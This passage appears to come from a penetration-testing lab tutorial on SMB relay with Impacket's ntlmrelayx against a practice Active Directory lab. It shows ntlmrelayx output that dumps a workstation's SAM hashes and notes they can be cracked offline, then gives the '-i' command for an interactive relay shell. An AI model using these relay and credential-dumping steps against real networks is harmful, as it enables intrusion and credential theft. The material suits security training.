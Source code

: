 ```
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-9 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, but there are no more targets left!
[*] Target system bootKey: 0x54c9af8a432c81a94876693eea660525
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Done dumping SAM hashes for host: 10.0.2.4
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

The really valuable information here is at the end of the output. The lines

```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Done dumping SAM hashes for host: 10.0.2.4
```

include a dump of the SAM file of the workstation `10.0.2.4`. We can store this
information in a file and then crack the hashes offline or use them otherwise.

The relay to `10.0.2.6` failed since the request was sent from this machine
(`THEPUNISHER`). The SAM dump came from the workstation `SPIDERMAN` with IP
`10.0.2.4`.



### Getting an interactive shell with ntlmrelayx.py

To get an interactive shell with `ntlmrelayx`, we just need to add the switch
`-i` to the previously used command. Once `ntlmrelayx` is waiting for traffic,
we need to try to connect to our attack machine from the workstation
`THEPUNISHER` again to create traffic.

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ impacket-ntlmrelayx -tf targets.txt -smb2support -i
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay enabled
```